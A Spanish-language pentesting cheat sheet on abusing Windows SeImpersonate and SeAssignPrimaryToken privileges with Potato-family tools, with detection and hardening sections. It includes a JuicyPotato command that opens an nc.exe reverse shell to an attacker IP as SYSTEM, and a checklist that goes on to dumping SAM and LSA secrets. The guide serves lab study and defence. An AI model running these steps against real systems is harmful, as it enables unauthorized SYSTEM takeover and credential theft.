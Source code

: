 # SeImpersonate y SeAssignPrimaryToken


* Windows maneja *tokens* de acceso que describen el contexto de seguridad de un proceso (SIDs, grupos, privilegios, etc.).
* **SeImpersonatePrivilege** permite a un proceso **impersonar** (tomar el contexto de) otro usuario después de que ese usuario se haya autenticado.
* **SeAssignPrimaryTokenPrivilege** permite **asignar o crear un token primario** para un proceso (CreateProcessAsUser-like), y es más poderoso y restringido.
* Ambos privilegios son potentes porque permiten escalar privilegios localmente: e.g., transformar un proceso con privilegios de servicio en uno con contexto `NT AUTHORITY\SYSTEM`.
* Ataques clásicos: **JuicyPotato**, **RoguePotato**, **PrintSpoofer** — abusan de servicios localmente ejecutándose como SYSTEM que conectan a un objeto RPC/COM y permiten la exfiltración/uso del token.

---

## Conceptos clave

* **Token de acceso (Access Token):** estructura en memoria que contiene identidad del usuario (SID), grupos, privilegios y lista de restricción.
* **Impersonation vs Primary Token:**

  * *Impersonation token* — usado por un thread para actuar como cliente; no siempre puede crear procesos.
  * *Primary token* — token asignado a un proceso, permite crear procesos con ese contexto.
* **SeImpersonatePrivilege:** concede la capacidad de `Impersonate a client after authentication`.
* **SeAssignPrimaryTokenPrivilege:** concede la capacidad de `Replace a process level token` (crear/colocar tokens primarios).
* **CreateProcessWithTokenW** y **CreateProcessAsUser** son APIs que requieren distintos privilegios: CreateProcessWithTokenW necesita token válido y el llamador debe poder usarlo (normalmente SeImpersonate puede ser suficiente en combinaciones con técnicas de token stealing); CreateProcessAsUser requiere SeAssignPrimaryToken.

---

## ¿Por qué son críticos en pentesting?

* Muchos servicios (IIS, SQL Server, servicios Windows, spooler) corren con cuentas de servicio que tienen **SeImpersonate** o **SeAssignPrimaryToken** habilitado.
* Si obtenés ejecución en el contexto de uno de esos servicios (ej. `nt service\mssql$sqlexpress01`, `iis apppool\defaultapppool`), podés comprobar inmediatamente si el servicio tiene dichas privilegios y, si es positivo, intentar escalada rápida a `SYSTEM`.
* Estas escaladas son fáciles y rápidas: pocos comandos y herramientas públicas (JuicyPotato, PrintSpoofer).

---

## Flujo típico de explotación (alto nivel)

1. Obtención de RCE en contexto de servicio no-SYSTEM (ej. shell vía `xp_cmdshell`, web shell en IIS, Jenkins RCE).
2. Ejecutar `whoami /priv` o PowerShell para listar privilegios.
3. Si aparece `SeImpersonatePrivilege` (Enabled) o `SeAssignPrimaryTokenPrivilege` → preparar exploit (JuicyPotato/PrintSpoofer).
4. Subir ejecutable de explotación (JuicyPotato.exe / PrintSpoofer.exe) + binarios auxiliares (nc.exe o reverse shell payload).
5. Ejecutar exploit apuntando a COM server id / listening port apropiado.
6. Si tiene éxito, obtendrás un proceso con token `NT AUTHORITY\SYSTEM` (shell remoto) o CreateProcessAsUser OK.

---

## Ejemplo práctico (resumen de pasos usados en labs)

* Comprobar privilegios:

  ```powershell
  whoami /priv
  # o en PowerShell
  Get-Process -Id $PID | ForEach-Object { [Security.Principal.WindowsIdentity]::GetCurrent().Groups }
  ```
* Descargar y ejecutar JuicyPotato (ejemplo):

  ```cmd
  JuicyPotato.exe -l 53375 -p C:\Windows\System32\cmd.exe -a "/c C:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
  ```
* Resultado esperado: `CreateProcessWithTokenW OK` y conexión reversa con `NT AUTHORITY\SYSTEM`.

> Nota: Ubicaciones y flags varían según la herramienta y la versión de Windows. JuicyPotato deja de funcionar en versiones recientes; PrintSpoofer o RoguePotato pueden funcionar en builds más nuevas.

---

## Artefactos y pistas de detección (logs/telemetría)

* **Eventos de seguridad**:

  * 4624/4634: logons (especialmente por servicios y SYSTEM).
  * 4688: proceso creado (buscar procesos inusuales lanzados por servicios: cmd.exe, powershell.exe, nc.exe, rundll32.exe desde servicios).
* **Sysmon (recomendado)**:

  * EventID 1 (Process Create): observar procesos hijo de servicios (svchost, sqlservr.exe, w3wp.exe) que lancen cmd.exe/powershell.
  * EventID 11/12/7: actividad en archivos subidos.
  * EventID 3 (Network) y 10 (ProcessAccess) para rastrear acceso entre procesos.
* **EPP/EDR**: creación de procesos con tokens differentes o llamadas a CreateProcessWithTokenW pueden disparar firmas.
* **Named pipes / COM bindings**: herramientas Potato crean listeners (named pipes / RPC endpoints) — revisá conexiones IPC y registros de server COM.

---

## Comprobaciones y hunting (quick wins)

* Desde una shell con permisos: `whoami /priv`.
* Listar privilegios en objetos y servicios: `sc qc <servicename>`, revisar `Log On As`.
* Buscar cuentas con SeImpersonate habilitado (PowerShell):

  ```powershell
  # Requires AD / local audit scripts; para local: dump privileges with ntdsutil or tools como AccessChk
  accesschk.exe -k *  # muestra privilegios en cuentas/servicios (sysinternals accesschk)
  ```
* En entorno AD, buscar GPOs o hardening que remuevan SeImpersonate de grupos no necesarios.

---

## Mitigaciones y hardening

* **Eliminar SeImpersonate y SeAssignPrimaryToken** de cuentas que no lo necesitan (Local Security Policy -> User Rights Assignment) o mediante GPO.
* **Principio de menor privilegio**: los servicios no deberían ejecutarse con cuentas que necesiten esos privilegios.
* **Segregar servicios**: evitar usar cuentas con amplios derechos en servicios accesibles por usuarios/clients.
* **Harden LSASS/Protecciones**: PPL, Credential Guard en entornos soportados.
* **EDR / Sysmon**: monitorizar creación inusual de procesos y llamadas a APIs sensibles (CreateProcessWithTokenW, CreateProcessAsUser).
* **Aplicar Application Whitelisting** y control de ejecución en servidores críticos.

---

## 9. Checklist cuando se encuentra RCE en servicio

1. `whoami /priv` — ¿SeImpersonate o SeAssignPrimaryToken aparecen?
2. Subir JuicyPotato/PrintSpoofer (o usar versiones publicadas) a ruta temporal.
3. Ejecutar con parámetros apropiados (puerto COM/CLSID, payload).
4. Si falla, probar alternativas (PrintSpoofer, RoguePotato, distintos CLSIDs).
5. Si obtienes SYSTEM, recolectar evidencia y continuar post-exploitation con cuidado (hashes SAM, LSA secrets si aplica).
6. Documentar y reportar: qué cuenta tenía el privilegio, cómo se explotó, recomendaciones de mitigación.

---

## Recursos recomendados

* Artículos técnicas sobre JuicyPotato, PrintSpoofer, RoguePotato y token impersonation.
* Documentación Microsoft sobre tokens y privilegios (Token, CreateProcessWithTokenW, CreateProcessAsUser).



*Pista: usa este lienzo como guía rápida en tus laboratorios. Para cada objetivo real, adapta los comandos y asegúrate de trabajar siempre en entornos autorizados y aislados.*
